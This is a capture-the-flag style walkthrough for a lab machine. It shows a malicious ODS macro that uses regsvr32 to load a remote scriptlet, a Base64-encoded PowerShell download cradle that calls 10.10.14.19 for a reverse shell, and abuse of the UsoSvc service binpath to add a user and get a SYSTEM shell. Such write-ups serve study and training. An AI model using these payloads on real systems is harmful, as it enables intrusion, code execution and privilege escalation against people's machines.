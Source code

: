 # Alternative way to exploit RE

## Creating an ODS File without Obfuscation

Instead of obfuscating around _cmd_ and _powershell_ in the **ODS** file the Windows binary _regsvr32_ can also be used to execute code.

Basic macro code:
```basic
Sub Main
  var1 = "regsvr /s /u /i:http://10.10.14.19/shell.sct scrobj.dll"
  Shell(var1)
End Sub
```

Modifying this [SCT file from Atomic-Red-Team](https://github.com/akapv/atomic-red-team/blob/master/atomics/t1117/RegSvr32.sct) _(shell.sct)_ to download _shell.ps1_ via PowerShell:
```markdown
(...)
	<script language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell").Run("powershell -encodedcommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADEAOQAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==");
(...)
```

After uploading the **ODS** file, it gets processed, executes _shell.ps1_ and the listener on my IP and port 9001 starts a reverse shell session as _luke_.

## Privilege Escalation with IIS User

After getting to the _iis appool_ user, there is a way to escalate privileges to _SYSTEM_ instead of that **Ghidra** part.

When running **Windows Enumeration Scripts**, it finds that the user has permissions over the service _UsoSvc_ because of membership in _NT AUTHORITY\SERVICE_.

Binary path of _UsoSvc_ service:
```markdown
cmd /c "sc qc UsoSvc"
```
```markdown
SERVICE_NAME: UsoSvc
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
```

Overwriting the binary path with the function _Invoke-ServiceAbuse_ from [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc):
```markdown
Invoke-ServiceAbuse -ServiceName 'UsoSvc'
```

Overwriting the binary path manually:
```markdown
cmd /c 'sc config UsoSvc binpath="net user Testuser Password123! /add"'

Restart-Service UsoSvc
```

This creates a user called _Testuser_ with the given password, but it is also possible to execute a reverse shell:
```markdown
cmd /c 'sc config UsoSvc binpath="cmd /c powershell -encodedcommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADEAOQAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA=="'

Restart-Service UsoSvc
```

After restarting the service, the listener on my IP and port 9001 starts a reverse shell sessions as _NT Authority\SYSTEM_!
